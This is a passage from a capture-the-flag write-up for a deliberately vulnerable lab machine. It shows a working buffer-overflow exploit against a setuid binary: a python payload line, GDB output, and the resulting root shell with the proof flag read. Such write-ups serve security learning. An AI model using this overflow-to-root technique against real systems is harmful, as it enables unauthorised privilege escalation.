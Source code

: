 Shellcode starts around 0xbffffe10, so we just change our EIP to that memory location to run the shellcode. As proven within GDB, it runs as expected and /bin/dash is executed (GDB strips EUID though)

``` bash
(gdb) r $(python -c 'print "A"*268 + "\x10\xfe\xff\xbf"')
Starting program: /nothing_to_see_here/choose_wisely/door1/r00t $(python -c 'print "A"*268 + "\x10\xfe\xff\xbf"')
process 1575 is executing new program: /bin/dash
id
uid=1002(noob) gid=1002(noob) groups=1002(noob)
exit
[Inferior 1 (process 1575) exited with code 0177]
(gdb)
```

When run outside of GDB, we get dropped to a root shell

``` bash
./r00t $(python -c 'print "A"*268 + "\x10\xfe\xff\xbf"')
id
uid=1002(noob) gid=1002(noob) euid=0(root) groups=0(root),1002(noob)
cd /root
ls -ls
total 40
4 -rw-r--r-- 1 root   root     68 Oct  6 18:32 Proof.txt
4 drwxr-xr-x 5 root   root   4096 Oct  4 22:35 core1
4 drwxr-xr-x 5 root   root   4096 Oct  4 22:36 core2
4 drwxr-xr-x 5 root   root   4096 Oct  4 22:36 core3
4 drwxr-xr-x 5 root   root   4096 Oct  4 22:36 core4
4 drwxr-xr-x 2 root   root   4096 Oct  5 21:14 goal
4 drwxr-xr-x 2 root   root   4096 Oct  6 18:36 hardmode
4 -rw-r--r-- 1 maleus maleus 1474 Oct  4 00:28 lmao.zip
4 -rw-r--r-- 1 root   root    828 Oct  4 22:43 ran_dir.py
4 drwxr-xr-x 2 root   root   4096 Oct  6 18:35 reboot
cat Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4
```

![](http://cdn-media-2.lifehack.org/wp-content/files/2014/08/Getting-it-done-gif.gif)
